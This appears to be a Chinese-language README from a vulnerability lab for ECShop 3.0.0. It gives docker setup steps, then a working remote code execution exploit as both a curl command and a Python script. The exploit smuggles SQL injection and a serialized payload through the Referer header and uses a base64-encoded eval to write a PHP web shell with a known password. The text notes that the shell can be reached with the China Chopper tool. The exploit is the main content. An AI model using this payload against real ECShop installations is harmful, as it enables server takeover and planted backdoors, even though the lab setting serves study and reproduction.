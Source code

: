 ## 环境构建
```
docker-compose build 
docker-compose up -d
```

## 漏洞介绍
3.0.0 Payload

```
curl http://127.0.0.1/user.php -d "action=login&vulnspy=eval/**/(base64_decode(ZmlsZV9wdXRfY29udGVudHMoJ3Z1bG5zcHkucGhwJywnPD9waHAgZXZhbCgkX1JFUVVFU1RbdnVsbnNweV0pOycpOw));exit;" \-H 'Referer: 45ea207d7a2b68c49582d2d22adf953aads|a:3:{s:3:"num";s:207:"*/ select 1,0x2720756e696f6e2f2a,3,4,5,6,7,8,0x7b247b2476756c6e737079275d3b6576616c2f2a2a2f286261736536345f6465636f646528275a585a686243676b5831425055315262646e5673626e4e77655630704f773d3d2729293b2f2f7d7d,0--";s:2:"id";s:9:"'"'"' union/*";s:4:"name";s:3:"ads";}45ea207d7a2b68c49582d2d22adf953a'
```

![](README/luffy1.png)

可以直接添加菜刀

地址:http://127.0.0.1/vulnspy.php 密码: vulnspy
![](README/luffy2.png)



python攻击脚本

```
import requests

burp0_url = "http://127.0.0.1:80/user.php"
burp0_headers = {"User-Agent": "curl/7.54.0", "Accept": "*/*", "Referer": "45ea207d7a2b68c49582d2d22adf953aads|a:3:{s:3:\"num\";s:207:\"*/ select 1,0x2720756e696f6e2f2a,3,4,5,6,7,8,0x7b247b2476756c6e737079275d3b6576616c2f2a2a2f286261736536345f6465636f646528275a585a686243676b5831425055315262646e5673626e4e77655630704f773d3d2729293b2f2f7d7d,0--\";s:2:\"id\";s:9:\"' union/*\";s:4:\"name\";s:3:\"ads\";}45ea207d7a2b68c49582d2d22adf953a", "Content-Type": "application/x-www-form-urlencoded", "Connection": "close"}
burp0_data={"action": "login", "vulnspy": "eval/**/(base64_decode(ZmlsZV9wdXRfY29udGVudHMoJ3Z1bG5zcHkucGhwJywnPD9waHAgZXZhbCgkX1JFUVVFU1RbdnVsbnNweV0pOycpOw));exit;"}
requests.post(burp0_url, headers=burp0_headers, data=burp0_data)


```




## 漏洞连接
[链接一](http://www.freebuf.com/vuls/182899.html)

[payload](http://www.vulnspy.com/cn-ecshop-3.x.x-rce-exploit/ecshop_%3C=_2.x/3.6.x/3.0.x_%E7%89%88%E6%9C%AC%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E9%AB%98%E5%8D%B1%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8/)